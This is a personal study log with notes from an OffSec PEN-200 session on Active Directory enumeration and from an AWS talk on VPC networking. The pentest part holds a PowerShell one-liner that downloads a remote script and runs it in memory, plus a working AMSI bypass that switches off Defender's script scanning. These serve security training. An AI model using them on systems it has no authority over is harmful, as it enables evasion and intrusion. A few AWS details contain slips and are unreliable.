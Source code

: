 ```yaml
---
title: 'OffSec Live: PEN-200 &amp; AWS Deep Dive'
date: 2022-08-24 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-08-24-offsec-live-pen-200-and-aws-deep-dive.html
author: 100007
---
```


# OffSec Live: PEN-200 & AWS Deep Dive

**author:** Nathan Acks  
**date:** 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

# OffSec Live: PEN-200 - Active Directory Enumeration & Exploitation, Part 1

The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns _tons_ of information about the current user.

The Windows host name will be returned by the `hostname` command.

The Windows `systeminfo` command returns _a lot_ of information about the current computer, including the associated domain controller if it’s domain-joined.

Use `net users` to enumerate all local users on Windows.

Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.

Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you’re logged in with a local or domain account).

When viewing information about a Windows user, `net user $USERNAME` will return _local_ user information, while `net user $USERNAME /domain` _domain_ user information.

Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.

See all Windows administrators for the local system: `net localgroup administrators`

By default, all members of the `Domain Admins` domain group are admins of both the _domain_ and _all_ machines in that domain.

One way to show domain group membership is to use `net group $GROUP /domain`. However, this _doesn’t_ show domain groups that are members of that group; for this you need to use PowerShell.

A good enumeration tool is `PowerView.ps1`.

One tool supplied by `PowerView.ps1` is the `Get-DomainUsers | select name, memberof` command, which gets domain users and associated groups.

The `Get-DomainGroupMember -Identity $GROUP_NAME` command for `PowerView.ps1` will get all domain group members, _including_ nested domain groups.

Another `PowerView.ps1` command is `Get-NetLoggedon | select UserName`, will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.

The `Get-NetSession` command for `PowerView.ps1` shows all users who are logged in to the current machine _right now_. It can be called _without_ admin privileges from Windows Server systems.

Finally, the `Invoke-UserHunter` command for `PowerView.ps1` bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.

You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there’s a lot of bypasses for this - for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.

AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you’re trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the “Bypass AMSI by manual modification” link).

Be aware that AMSI bypasses are _per session_, not global!

- [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
- [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
- [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

# Another Day, Another Billion Packets

[AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)

VPC was originally created to help _Amazon_ migrate their data centers to AWS.

EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.

VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don’t overlap and (2) are entirely contained within the VPC network.

VPCs are _not_ VLAN based - there are at most 4096 separate VLAN tags.

VPCs are identified internally with a 128 bit number (8 hex digits).

The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs _are_ and on which physical servers the instances are located. But the mapping service doesn’t _just_ provide L2 information - servers receiving packets also verify that those packets are authentic (that the packet’s server/instance/VPC tuple matches an existing system).

The mapping service also functions as a “virtual gateway”, providing routing information _between_ subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is _exactly_ the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.

In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices _pro-actively_ cache from the mapping service as instances are spun up within a VPN. _All queries are handled by these caches._

There are two types of caches - caches to individual hosts (EC2) instances, and caches to “edges”, which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.

Edges also function as a 1-to-1 NAT in their role as internet gateways.

Edge devices are called “Blackfoot”, after the South African Blackfoot Penguin.

The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.

Edges can also now route to S3, enabling S3 buckets to be exposed _privately_ within a VPC. Packets routed to S2 buckets configured in this fashion _never_ traverse the public internet - they go out to an edge device and then are routed from there to S3.

S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon (“Aspen”) policy document structure.

